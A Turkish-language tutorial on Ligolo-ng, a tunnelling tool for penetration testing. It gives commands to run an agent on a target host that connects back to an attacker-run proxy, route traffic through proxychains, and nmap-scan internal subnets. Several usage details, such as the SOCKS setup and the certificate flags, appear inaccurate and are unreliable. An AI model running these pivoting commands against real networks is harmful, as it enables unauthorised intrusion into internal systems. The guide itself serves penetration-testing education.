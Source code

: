 # Ligolo-ng Kullanım Rehberi

## Giriş
Ligolo-ng, saldırganların bir iç ağda proxy tünelleme yaparak trafik yönlendirmesi gerçekleştirmesine olanak tanıyan modern bir tünelleme aracıdır. Hem hızlı hem de hafif olmasıyla öne çıkan bu araç, ağ sızma testlerinde sıklıkla kullanılmaktadır.

---

## Özellikler
- **Güvenli İletişim:** TLS kullanarak güvenli tüneller oluşturur.
- **Çoklu Platform Desteği:** Linux, Windows ve macOS gibi farklı platformlarda çalışabilir.
- **Yüksek Performans:** Düşük gecikme süresi ile veri aktarımı sağlar.
- **Basit Yapılandırma:** Minimum çabayla hızlı bir şekilde çalıştırılabilir.

---

## İndirme ve Kurulum

### Linux
1. [Ligolo-ng GitHub sayfasına](https://github.com/tnpitsecurity/ligolo-ng) gidin.
2. Son sürümün binary dosyasını indirin:
   ```bash
   wget https://github.com/tnpitsecurity/ligolo-ng/releases/download/<version>/ligolo-ng_proxy_linux_amd64
   wget https://github.com/tnpitsecurity/ligolo-ng/releases/download/<version>/ligolo-ng_agent_linux_amd64
   ```
3. Binary dosyalarına çalıştırma izni verin:
   ```bash
   chmod +x ligolo-ng_proxy_linux_amd64 ligolo-ng_agent_linux_amd64
   ```

### Windows
1. GitHub sayfasından Windows için uygun binary dosyasını indirin.
2. İndirilen dosyayı çalıştırmaya hazır hale getirin.

---

## Kullanım

### Temel Mimarisi
Ligolo-ng, **Proxy** ve **Agent** olmak üzere iki bileşenden oluşur:
- **Proxy:** Kontrol sunucusudur ve saldırgan makinesinde çalıştırılır.
- **Agent:** Hedef ağdaki sistemde çalıştırılır ve Proxy ile iletişim kurar.

### Proxy'yi Çalıştırma
1. Proxy'yi çalıştırmak için aşağıdaki komutu kullanın:
   ```bash
   ./ligolo-ng_proxy_linux_amd64 -bind 0.0.0.0:8888
   ```
   - `-bind`: Proxy'nin hangi IP ve port üzerinden dinleyeceğini belirtir.

### Agent'ı Çalıştırma
1. Agent'ı hedef makinede çalıştırın:
   ```bash
   ./ligolo-ng_agent_linux_amd64 -connect <proxy_ip>:8888
   ```
   - `<proxy_ip>`: Proxy'nin çalıştığı sunucunun IP adresi.

### Proxy Chains ile Kullanım
1. Proxychains ayar dosyasını düzenleyin:
   ```bash
   sudo nano /etc/proxychains.conf
   ```
2. Son satıra aşağıdaki satırı ekleyin:
   ```
   socks5 127.0.0.1 1080
   ```
3. Proxychains kullanarak tarama yapın:
   ```bash
   proxychains nmap -sT -Pn <hedef_ip>
   ```

---

## Gelişmiş Kullanım

### Sertifikalarla Güvenlik
Ligolo-ng varsayılan olarak kendi kendine imzalanan sertifikalar kullanır. Güvenliği artırmak için özel sertifikalar oluşturabilirsiniz:

1. OpenSSL ile bir CA oluşturun:
   ```bash
   openssl req -x509 -newkey rsa:4096 -keyout ca-key.pem -out ca-cert.pem -days 365 -nodes
   ```
2. Ligolo-ng için özel bir sertifika oluşturun:
   ```bash
   openssl req -new -key ca-key.pem -out server.csr
   openssl x509 -req -in server.csr -CA ca-cert.pem -CAkey ca-key.pem -CAcreateserial -out server-cert.pem -days 365
   ```
3. Sertifikaları Proxy ve Agent yapılandırmalarına ekleyin:
   ```bash
   ./ligolo-ng_proxy_linux_amd64 -bind 0.0.0.0:8888 -cert server-cert.pem -key ca-key.pem
   ./ligolo-ng_agent_linux_amd64 -connect <proxy_ip>:8888 -cert ca-cert.pem
   ```

---

## Sık Karşılaşılan Sorunlar

### 1. Agent Bağlanamıyor
- **Çözüm:** Firewall ve ağ yapılandırmasını kontrol edin. Proxy'nin dinlediği portun açık olduğundan emin olun.

### 2. Trafik Yönlendirilemiyor
- **Çözüm:** Proxychains ayarlarını tekrar gözden geçirin ve doğru SOCKS proxy'yi seçtiğinizden emin olun.

### 3. Performans Düşüklüğü
- **Çözüm:** Hedef sistemin ve saldırgan makinesinin ağ hızını kontrol edin. Daha düşük gecikme süreli bir ağ kullanın.

---

## Örnek Senaryo
1. Hedef sistemde Agent'ı çalıştırın:
   ```bash
   ./ligolo-ng_agent_linux_amd64 -connect 192.168.1.10:8888
   ```
2. Proxy'yi saldırgan makinesinde çalıştırın:
   ```bash
   ./ligolo-ng_proxy_linux_amd64 -bind 0.0.0.0:8888
   ```
3. Proxychains ile tarama yapın:
   ```bash
   proxychains nmap -sT -Pn 10.10.10.0/24
   ```

---

## Kaynaklar
- [Ligolo-ng Resmi GitHub Sayfası](https://github.com/tnpitsecurity/ligolo-ng)
- [Proxychains Ayarları](https://linux.die.net/man/1/proxychains)
- [OpenSSL Sertifika Kılavuzu](https://www.openssl.org/docs/man1.1.1/man1/openssl.html)
